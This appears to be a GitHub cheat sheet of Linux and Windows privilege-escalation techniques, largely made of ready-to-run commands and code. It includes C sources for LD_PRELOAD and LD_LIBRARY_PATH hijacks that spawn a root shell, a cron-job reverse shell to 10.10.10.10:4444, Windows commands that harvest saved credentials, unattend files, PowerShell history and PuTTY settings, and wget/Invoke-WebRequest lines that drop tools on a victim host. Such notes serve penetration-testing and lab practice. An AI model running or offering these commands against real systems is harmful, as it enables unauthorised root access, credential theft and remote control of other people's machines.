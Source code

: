 # PrivEscalation
***
* ### Better listener shell experience
```python -c 'import pty;pty.spawn("/bin/bash")'``` 


* ### List sudo capability of the current user
```sudo -l```


* ### Find interesting binaries that can exploit shell
```find / -perm /6000 2>/dev/null | grep '/bin'```


* ### https://gtfobins.github.io/ followed the interesting tools that can exploit 


* ### env_keep exploit when ```sudo -l``` and ```ddl <thetargetedprogram>``` to find its libraries

> #### - Take advantage of LD_PRELOAD
a. compile the library.
```gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/preload.c```
```#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

b. sudo program with the LD_PRELOAD
```sudo LD_PRELOAD=/tmp/preload.so program-name-here```

> #### - Take advantage of LD_LIBRARY_PATH
a. find the libraries used by the program
```ldd /usr/sbin/<program> #for example```

b. compile the library with one of the libraries name
```gcc -o /tmp/<libraryname> -shared -fPIC /home/user/library_path.c```
```#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

c. sudo program with the LD_LIBRARY_PATH
```sudo LD_LIBRARY_PATH=/tmp <programname>```


* ### Cron job if it's writable on /etc/crontab file (can use any available type of reverse shell http://revshells.com/ ):
```#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```


* ### Automated tools
LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
LinEnum: https://github.com/rebootuser/LinEnum
LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
Linux Priv Checker: https://github.com/linted/linuxprivchecker

* # Windows Commands

* ### unattended files found in
```
 C:\Unattend.xml
 C:\Windows\Panther\Unattend.xml
 C:\Windows\Panther\Unattend\Unattend.xml
 C:\Windows\system32\sysprep.inf
 C:\Windows\system32\sysprep\sysprep.xml	
```
* ### Powershell history 
```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

* ### Find saved credentials and use runas to open cmd of those creds
To list the credentials available for this user ```cmdkey /list``` 
To use that user's cmd ```runas /savecred /user:<USER> cmd.exe```

*### Find web.config that belong to IIS in those location
```
 C:\inetpub\wwwroot\web.config
 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```
and to find database connections in them use 
```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

* ### Retrieve creds from PuTTy
```reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s```
	
	
# Reverse Shell
***
* ### https://www.revshells.com/

* ### MonkeyPenTest

* ### Start webserver using python ```sudo python3 -m http.server 80``` then download files into victim shell 
Linux :"wget <LOCAL-IP>/socat -O /tmp/socat"
Windows: "Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe"

